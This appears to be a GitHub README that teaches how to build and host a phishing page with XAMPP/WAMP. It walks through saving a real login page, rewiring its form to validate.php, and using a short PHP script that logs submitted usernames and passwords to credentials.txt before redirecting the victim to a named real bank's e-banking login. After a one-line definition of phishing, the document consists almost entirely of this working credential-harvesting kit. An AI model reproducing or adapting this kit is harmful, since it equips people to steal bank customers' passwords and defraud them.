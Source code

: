 # phishing


What phishing website does?

Phishing is get sensitive data like passwords, credit card details using fake websites and emails. This is the good example to social 
engineering because this fake website same as the original web site. So user easily caught this unauthorized websites. 



How to host the phishing page on our computer using XAMPP/WAMP ?

1) Open the website in the browser for which you want to create a phishing page. Right click and save as index.html.


2) Then open that html in a note pad. Now search string "action" and change address to validate.php

                   <form action="validate.php" method="post">

3) Now open notepad, type following code in it and save it as validate.php. This is create for store credentials.

                    <?php
                    $username = $_POST["username"];
                    $password = $_POST["passwd"];
 
                    //Get credentials to .txt file
                    $myfile = fopen("credentials.txt", "a") or die("Unable to open file!");
                    $txt = "USERNAME = $username , PASSWORD = $password\n";
                    fwrite($myfile, "\n". $txt);
                    fclose($myfile);
 
                    //Redirect the browser to original login page
                    header("Location: https://www.ebank.peoplesbank.lk/eb/index.html");
 
                    exit();

                    ?>

4) Then create credentials.txt file to store these credentials.

5) Host that created files to XAMMP/WAMP.

![capture14](https://cloud.githubusercontent.com/assets/18233358/24329565/f023d058-1227-11e7-9e8e-e1297b9771ea.PNG)


6) Then run that phishing website on browser and enter credentials.

7) That credentials store credentials.txt file. You can view that file and get that credentials easily.









